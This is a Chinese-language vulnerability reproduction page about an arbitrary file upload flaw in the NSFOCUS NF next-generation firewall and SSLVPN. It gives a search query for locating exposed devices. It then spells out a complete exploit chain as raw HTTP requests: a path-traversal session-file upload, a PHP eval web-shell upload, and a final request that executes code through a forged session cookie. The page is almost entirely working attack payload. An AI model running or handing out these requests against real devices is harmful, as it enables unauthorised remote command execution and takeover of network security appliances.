




绿盟 NF下一代防火墙 任意文件上传漏洞¶
漏洞描述¶
绿盟 SSLVPN 存在任意文件上传漏洞，攻击者通过发送特殊的请求包可以获取服务器权限，进行远程命令执行
漏洞影响¶
绿盟 SSLVPN
网络测绘¶
app="NSFOCUS-下一代防火墙"
漏洞复现¶
主页面

出现漏洞的端口为 8081
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=1d52ba2a11ad8a915eddab1a0e85acd9
Host:
--1d52ba2a11ad8a915eddab1a0e85acd9
Content-Disposition: form-data; name="file"; filename="sess_82c13f359d0dd8f51c29d658a9c8ac71"
lang|s:52:"../../../../../../../../../../../../../../../../tmp/";
--1d52ba2a11ad8a915eddab1a0e85acd9--

POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=4803b59d015026999b45993b1245f0ef
Host:
--4803b59d015026999b45993b1245f0ef
Content-Disposition: form-data; name="file"; filename="compose.php"
<?php eval($_POST['cmd']);?>
--4803b59d015026999b45993b1245f0ef--

POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=4803b59d015026999b45993b1245f0ef
Host:
--4803b59d015026999b45993b1245f0ef
Content-Disposition: form-data; name="file"; filename="compose.php"
<?php eval($_POST['cmd']);?>
--4803b59d015026999b45993b1245f0ef--

POST /mail/include/header_main.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID_NF=82c13f359d0dd8f51c29d658a9c8ac71
Host:
cmd=phpinfo();